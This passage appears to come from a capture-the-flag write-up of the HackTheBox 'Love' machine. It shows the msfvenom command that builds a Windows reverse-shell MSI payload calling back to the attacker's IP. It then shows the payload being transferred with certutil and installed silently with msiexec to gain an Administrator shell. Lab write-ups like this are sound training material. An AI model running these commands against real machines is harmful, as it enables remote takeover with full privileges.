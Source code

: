 Then I created the payload as `msi` format through msfvenom →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Love]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.10 LPORT=445 -f msi -o shell.msi 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
Saved as: shell.msi
```
{: .nolineno}

Transferred it through `certutil.exe` Tool and Installed the MSI →

```powershell
msiexec /quiet /qn /i C:\Users\Phoebe\shell.msi
```
{: .nolineno}

![Untitled](Love%20e2ce3b6768674d0c8597144c9f5b992b/Untitled%2012.png)

```powershell
C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 0319DDF8 56DE:BA30
C:.
+---3D Objects
+---Contacts
+---Desktop
|       root.txt
|       
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
```